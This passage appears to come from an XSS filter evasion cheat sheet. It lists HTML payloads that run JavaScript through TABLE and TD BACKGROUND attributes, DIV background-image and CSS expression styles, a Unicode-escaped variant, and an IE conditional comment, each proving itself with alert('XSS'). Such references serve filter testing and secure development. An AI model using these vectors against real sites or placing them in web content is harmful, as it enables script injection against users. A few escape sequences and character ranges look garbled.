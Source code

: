 ```html
<TABLE BACKGROUND="javascript:alert('XSS')">
```

#### TD

Just like above, TD's are vulnerable to BACKGROUNDs containing JavaScript XSS vectors:

```html
<TABLE><TD BACKGROUND="javascript:alert('XSS')">
```

### DIV

#### DIV Background-image

```html
<DIV STYLE="background-image: url(javascript:alert('XSS'))">
```

#### DIV Background-image with Unicode XSS Exploit

This has been modified slightly to obfuscate the URL parameter:

```html
<DIV STYLE="background-image:\0075\0072\006C\0028'\006a\0061\0076\0061\0073\0063\0072\0069\0070\0074\003a\0061\006c\0065\0072\0074\0028.1027\0058.1053\0053\0027\0029'\0029">
```

(Original vulnerability was found by Renaud Lifchitz as a vulnerability in Hotmail)

#### DIV Background-image Plus Extra Characters

RSnake built a quick XSS fuzzer to detect any erroneous characters that are allowed after the open parenthesis but before the JavaScript directive in IE. These are in decimal but you can include hex and add padding of course. (Any of the following chars can be used: 1-32, 34, 39, 160, 8192-8.13, 12288, 65279):

```html
<DIV STYLE="background-image: url(javascript:alert('XSS'))">
```

#### DIV Expression

A variant of this attack was effective against a real-world XSS filter by using a newline between the colon and `expression`:

```html
<DIV STYLE="width: expression(alert('XSS'));">
```

### Downlevel-Hidden Block

Only works on the IE rendering engine - Trident. Some websites consider anything inside a comment block to be safe and therefore does not need to be removed, which allows our XSS vector to exist. Or the system might try to add comment tags around something in a vain attempt to render it harmless. As we can see, that probably wouldn't do the job:

```js
<!--[if gte IE 4]>
<SCRIPT>alert('XSS');</SCRIPT>
<![endif]-->
```
